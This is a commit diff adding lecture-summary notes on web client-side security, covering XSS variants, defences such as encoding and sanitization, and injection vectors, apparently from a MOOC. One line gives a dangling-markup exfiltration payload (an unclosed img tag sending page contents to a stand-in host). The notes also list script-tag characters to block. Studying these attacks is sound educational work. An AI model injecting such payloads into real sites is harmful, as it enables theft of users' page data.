

Before and after one commit to StijnCaerts/DoSS, a LaTeX document (summary.tex): part of page 19 of 19 before the commit and two parts of pages 19 and 20 of 21 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
MOOC completed

```diff
--- a/summary.tex
+++ b/summary.tex
@@ -795,3 +795,77 @@
 			\end{itemize}
 		\end{itemize}
 	\end{itemize}
+
+	\subsection{Client-side injection attacks}
+	\begin{itemize}
+		\item Traditional XSS attacks
+		\begin{itemize}
+			\item Cross-Site Scripting
+			\item Attacker executes code in the browsing context, possesses the full power of JavaScript
+			\item Consequences
+			\begin{itemize}
+				\item defacement of the page
+				\item stealing sensitive information from the browser
+				\item advanced JavaScript payloads (keyloggers, network scanners)
+			\end{itemize}
+			\item Reflected XSS
+			\begin{itemize}
+				\item Payload is sent to the server as part of requested data
+				\item Server incorporates payload into the HTML page of the response
+				\item Payload is executed in the browser
+				\item Attacker can embed an \texttt{iframe} with a request with a payload in another site to execute it in the victim's browser
+			\end{itemize}
+			\item Stored XSS
+			\begin{itemize}
+				\item Payload is stored in the database
+				\item Attacker's code is executed when the user's browser renders the page containing this database information
+				\item Attack happens within the application, does not involve a cross-site request
+			\end{itemize}
+		\end{itemize}
+
+		\item Common defences against XSS attacks
+		\begin{itemize}
+			\item Strict input validation
+			\begin{itemize}
+				\item Prevent dangerous characters or strings: \texttt{<}, \texttt{>}, \texttt{<script>}
+				\item Helps avoid confusion between data and code
+			\end{itemize}
+			\item Output encoding
+			\begin{itemize}
+				\item Encoded characters are harmless
+				\item Context-sensitive output encoding
+					\subitem context determines which characters need to be encoded \textrightarrow \ library
+			\end{itemize}
+			\item Rich-text data
+			\begin{itemize}
+				\item Can not be combined with output encoding
+				\item Sanitization: analyse contents and removes dangerous parts
+			\end{itemize}
+		\end{itemize}
+
+		\item DOM-based XSS attacks
+		\begin{itemize}
+			\item Pages can also be modified on the client with JavaScript
+			\item Client-side XSS vulnerabilities exist as well
+			\item Occurs when legitimate code modifies the DOM in an insecure way
+				\subitem by taking a piece of data from the URL (can be modified \textrightarrow \ untrusted)
+			\item Elimination DOM-based XSS vulnerabilities
+			\begin{itemize}
+				\item use proper DOM APIs
+				\item context-sensitive encoding of untrusted data
+				\item client-side sanitization libraries
+			\end{itemize}
+		\end{itemize}
+	\end{itemize}
+
+	\subsection{Advanced client-side attacks and defences}
+	\begin{itemize}
+		\item Alternative injection attack vectors
+		\begin{itemize}
+			\item Not only JS code can be injected through XSS: also HTML, CSS, ...
+			\item Data exfiltration by inserting non-closed tags with URL
+			\begin{itemize}
+				\item \texttt{<img src=`https://ex.com/log.php?} can capture all following page contents until the next single quote '
+			\end{itemize}
+			\item Hijacking relative URLs by injecting a base tag
+			\item Modifying form parameters (field values, destinations, ...)
@@ -797,0 +902 @@
+			\item Hashes and nonces: replace unsafe-inline
```
Also changed, not shown: summary.tex (37 more changed lines).
